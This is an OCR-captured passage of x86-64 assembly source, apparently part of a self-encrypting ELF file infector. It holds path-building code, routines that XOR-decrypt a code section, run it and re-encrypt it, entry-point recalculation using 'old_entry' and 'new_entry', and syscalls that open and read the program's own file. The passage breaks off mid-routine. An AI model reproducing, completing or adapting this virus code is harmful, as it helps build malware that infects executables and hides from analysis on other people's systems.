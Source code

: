 ```assembly
            inc rcx
            test al, al
            je .second_done
            jmp .second_loop
        .second_done:
            sub rsi, rcx
            mov rax, rcx
            rep movsb
            xchg rsi, rdi

            cmp r12, 4
            jne .file
            mov [rsi - 1], byte '/'
            mov [rsi], byte 0
            .file:
            sub rsi, rax
            sub rsi, rdx
    pop r12
    pop rdx
    pop rdi
    pop rsi
    pop rcx
    pop rax
    ret

end_encrypted:
    ; Decrypt final section
    XOR_DECRYPT end_logic, end_logic_end - end_logic, [rel xor_key_3]
    call end_logic
    XOR_ENCRYPT end_logic, end_logic_end - end_logic, [rel xor_key_3]
    
    POP_ALL
    mov rax, SYS_exit
    xor rdi, rdi
    syscall

end_logic:
    mov rax, [rel entry]
    mov [rel new_entry], rax

    mov rax, [rel new_entry]
    sub rax, [rel old_entry]
    lea rdi, [rel _start]
    sub rdi, rax

    mov [rel new_entry], rdi

    mov rax, SYS_open
    lea rdi, [rel self]
    xor rsi, rsi
    xor rdx, rdx
    syscall
    cmp rax, 0
    jle .just_quit
    mov r12, rax

    mov rax, SYS_pread64
    mov rdi, r12
    lea rsi, [rel zero]
    mov rdx, 1
    mov r10, 10
    syscall

```